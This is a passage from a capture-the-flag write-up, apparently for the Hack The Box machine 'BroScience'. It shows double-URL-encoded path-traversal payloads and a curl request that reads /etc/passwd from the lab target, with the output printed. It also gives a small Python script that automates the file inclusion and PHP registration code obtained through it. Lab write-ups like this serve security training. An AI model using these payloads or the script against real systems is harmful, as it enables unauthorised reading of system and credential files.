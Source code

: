 ```
    * FUZZ: %%32%65%%32%65%%32%66%%32%65%%32%65%%32%66%%32%65%%32%65%%32%66%%32%65%%32%65%%32%66%%32%65%%32%65%%32%66%%36%35%%37%34%%36%33%%32%66%%37%30%%36%31%%37%33%%37%33%%37%37%%36%34 

```

Boom! found a valid payload, now I waited a little because although that is a valid payload I couldn't really understand what's going on there so after a while the following payload popped up:

`..%252f..%252f..%252f..%252fetc%252fpasswd`

Now thats readable so I can work with it.


```

$ curl -k -s 'https://broscience.htb/includes/img.php?path=..%252f..%252f..%252f..%252fetc%252fpasswd' | grep "bash"
root:x:0:0:root:/root:/bin/bash
bill:x:1000:1000:bill,,,:/home/bill:/bin/bash
postgres:x:117:125:PostgreSQL administrator,,,:/var/lib/postgresql:/bin/bash

```

After a lot of searching I didn't really find something to help me get in the machine but I did find a way to log in the website. But before that I made a python script that would help us do that lfi much faster.

```
import sys
import os 
import urllib.parse

payload = sys.argv[1]
new_payload = urllib.parse.quote(payload, safe="")
new_payload = urllib.parse.quote(new_payload, safe="")

command = "curl -k -s 'https://broscience.htb/includes/img.php?path=" + new_payload + "'"
        
os.system(command)

```

This just runs the `curl` command with the payload it's just url encoded twice.

So back to the login, so I wanted to see some interesting stuff about the website so I started with some lfi payloads on already known files I saw in the website like login.php, register.php, etc. I stumbled upon the register.php file and saw how an account is created, the following grabbed my attention:

```
if (pg_num_rows($res) == 0) {
  // Create the account
  include_once 'includes/utils.php';
  $activation_code = generate_activation_code();
  $res = pg_prepare($db_conn, "check_code_unique_query", 'SELECT id FROM users WHERE activation_code = $1');
  $res = pg_execute($db_conn, "check_code_unique_query", array($activation_code));

  if (pg_num_rows($res) == 0) {
      $res = pg_prepare($db_conn, "create_user_query", 'INSERT INTO users (username, password, email, activation_code) VALUES ($1, $2, $3, $4)');
      $res = pg_execute($db_conn, "create_user_query", array($_POST['username'], md5($db_salt . $_POST['password']), $_POST['email'], $activation_code));

      // TODO: Send the activation link to email
      $activation_link = "https://broscience.htb/activate.php?code={$activation_code}";
```
